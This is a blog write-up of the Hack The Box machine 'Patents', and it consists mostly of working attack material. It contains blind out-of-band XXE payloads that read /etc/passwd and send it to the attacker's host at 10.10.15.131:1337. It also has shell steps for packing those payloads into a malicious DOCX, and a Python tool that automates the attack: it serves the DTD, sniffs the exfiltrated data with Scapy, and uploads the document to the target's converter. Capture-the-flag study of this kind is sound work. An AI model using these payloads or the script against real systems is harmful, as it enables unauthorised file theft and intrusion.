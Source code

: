 ```yaml
---
layout: post
title: "Playing with HTB{ Patents }"
date: 2020-05-16 19:00:00 +0300
author: snovvcrash
categories: /pentest
tags: [notes, hackthebox, machine, linux, docx, xxe, python, scapy]
comments: true
published: true
---
```


Automate crafting malicious DOCX for blind XXE-OOB with external DTD.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/224"><img src="https://img.shields.io/badge/%e2%98%90-hackthebox.eu-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-hard">7.8/10</span>
</p>

![banner.png](/assets/images/htb/machines/patents/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/patents/info.png)
{:.center-image}

* TOC
{:toc}

# XXE

## Manual exploitation

### Way 1. General entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
%ext;
]>
<foo>&exfil;</foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
```

### Way 2. Parameter entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
]>
<foo></foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
%ext;
%exfil;
```

### Malicious DOC/DOCX

Get `docx` sample and unpack it:

```
root@kali:$ curl https://file-examples.com/wp-content/uploads/2017/02/file-sample_100kB.docx > sample.docx
root@kali:$ unzip sample.docx
```

Create `customXml/` dir with a payload and pack it back:

```
root@kali:$ mkdir customXml
root@kali:$ vi customXml/item1.xml
...
root@kali:$ rm malicious.docx; zip -r malicious.docx '[Content_Types].xml' customXml/ docProps/ _rels/ word/
```

![manual-exploit-out-1.png](/assets/images/htb/machines/patents/manual-exploit-out-1.png)
{:.center-image}

![manual-exploit-out-2.png](/assets/images/htb/machines/patents/manual-exploit-out-2.png)
{:.center-image}

## Automate with Scapy

Scripting all the stuff to run simple HTTP server and Scapy HTTP sniffer in separate threads:

```python
#!/usr/bin/env python3

import re
import cmd
import socket
import fcntl
import struct
from base64 import b64decode
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

# http.server.BaseHTTPRequestHandler VS http.server.SimpleHTTPRequestHandler
# socketserver.TCPServer VS http.server.HTTPServer

import requests
from scapy.all import *

M = '\033[%s;35m'  # MAGENTA
S = '\033[0m'      # RESET

URL = 'http://patents.htb/convert.php'


class SilentHTTPRequestHandler(SimpleHTTPRequestHandler):
	"""
	https://stackoverflow.com/a/3389505/6253579
	https://stackoverflow.com/a/10651257/6253579
	"""

	def log_request(self, code='-', size='-'):
		return


class HTTPServerInThread(Thread):

	def __init__(self, address='0.0.0.0', port=1337):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SilentHTTPRequestHandler)

	def run(self):
		print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class HTTPSniffer(Thread):

	def __init__(self, iface='tun0'):
		super().__init__()
		self.iface = iface
		self.re = re.compile(r'/\?x=(\S+)')

	def run(self):
		# Wireshark filter: "http.request.method == GET && tcp.port == 1337"
		sniff(iface=self.iface, filter='tcp dst port 1337', prn=self.process_http)

	def process_http(self, pkt):
		try:
			req_text = pkt[Raw].load.decode()
			if '/?x=' in req_text:
				contents_b64 = self.re.search(req_text).group(1)
				print(b64decode(contents_b64).decode())
		except IndexError:
			pass


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


class Terminal(cmd.Cmd):

	prompt = f'{M%0}XXE{S}> '

	def __init__(self, proxies=None):
		super().__init__()

		self.headers = {
			'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Accept-Language': 'en-US,en;q=0.5',
			'Accept-Encoding': 'gzip, deflate'
		}

		self.ext_dtd = """\
			<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={filename}">
			<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://{ip}:1337/?x=%file;'>">
			%ext;
			%exfil;
		""".replace('\t', '').format_map(Default({"ip": self._get_ip()}))

		if proxies:
			self.proxies = {'http': proxies}
		else:
			self.proxies = {}

	def do_file(self, filename):
		with open('/root/htb/boxes/patents/xxe/ext.dtd', 'w') as f:
			f.write(self.ext_dtd.format(filename=filename))

		files = {
			'userfile': ('test.docx', open('/root/htb/boxes/patents/xxe/docx/malicious.docx', 'rb'), 'application/vnd.openxmlformats-officedocument.wordprocessingml.document'),
			'submit': (None, 'Generate pdf')
		}

		resp = requests.post(URL, files=files)

	def do_EOF(self, args):
		print()
		return True

	def emptyline(self):
		pass

	def _get_ip(self, iface='tun0'):
		s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		return socket.inet_ntoa(fcntl.ioctl(
			s.fileno(),
			0x8915,  # SIOCGIFADDR
			struct.pack('256s', iface[:15].encode())
		)[20:24])


if __name__ == '__main__':
	server = HTTPServerInThread()
	server.daemon = True
	server.start()

	sniffer = HTTPSniffer()
	sniffer.daemon = True
	sniffer.start()

	Terminal().cmdloop()
```

![xxe-py-out.png](/assets/images/htb/machines/patents/xxe-py-out.png)
{:.center-image}

# Refs

* [What is a blind XXE attack? Tutorial & Examples / Web Security Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)
* [Out-of-band XML External Entity (OOB-XXE) / Acunetix](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)
* [bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)
* [XXE Attacks— Part 1: XML Basics - klose - Medium](https://medium.com/@klose7/https-medium-com-klose7-xxe-attacks-part-1-xml-basics-6fa803da9f26)
* [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* [Sample .doc and .docx download / File Examples Download](https://file-examples.com/index.php/sample-documents-download/sample-doc-download/)
* [c# - VSTO Word 2013 add in - Add Custom XML to document xml without it being visible on the page - Stack Overflow](https://stackoverflow.com/a/38797399/6253579)
* [python - How to quiet SimpleHTTPServer? - Stack Overflow](https://stackoverflow.com/a/10651257/6253579)
* [python - Leaving values blank if not passed in str.format - Stack Overflow](https://stackoverflow.com/a/19800610/6253579)
